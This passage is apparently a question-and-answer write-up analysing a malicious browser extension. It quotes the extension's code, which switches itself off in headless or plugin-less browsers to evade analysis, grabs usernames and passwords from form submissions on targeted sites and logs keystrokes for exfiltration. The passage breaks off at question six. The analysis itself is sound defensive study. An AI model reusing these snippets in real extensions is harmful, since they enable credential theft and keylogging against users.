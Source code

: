 ### 4. What is the first specific condition in the code that triggers the extension to deactivate itself?

By examining the following code snippet:

```javascript
if (navigator.plugins.length === 0 || /HeadlessChrome/.test(navigator.userAgent))
```

we can observe that the code checks for signs of a virtual or headless browser environment. The **first** specific condition is:

```javascript
navigator.plugins.length === 0
```

This condition is used to detect browsers with no plugins loaded—an indicator commonly associated with automation tools or headless environments. If this condition is true, the extension disables itself.

**Answer:** **`navigator.plugins.length === 0`**

---

### 5. Which event does the extension capture to track user input submitted through forms?

By examining the following code snippet:
```js
    if (targets.indexOf(window.location.hostname) !== -1) {
        document.addEventListener('submit', function(event) {
            let form = event.target;
            let formData = new FormData(form);
            let username = formData.get('username') || formData.get('email');
            let password = formData.get('password');

            if (username && password) {
                exfiltrateCredentials(username, password);
            }
        });

        ...
```

we can observe that the extension captures the **submit** event, which is triggered when a form is submitted.

**Answer:** **submit**

---

### 6. Which API or method does the extension use to capture and monitor user keystrokes?

By examining the following code snippet:
```js
    document.addEventListener('keydown', function(event) {
        var key = event.key;
        exfiltrateData('keystroke', key);
    });
```
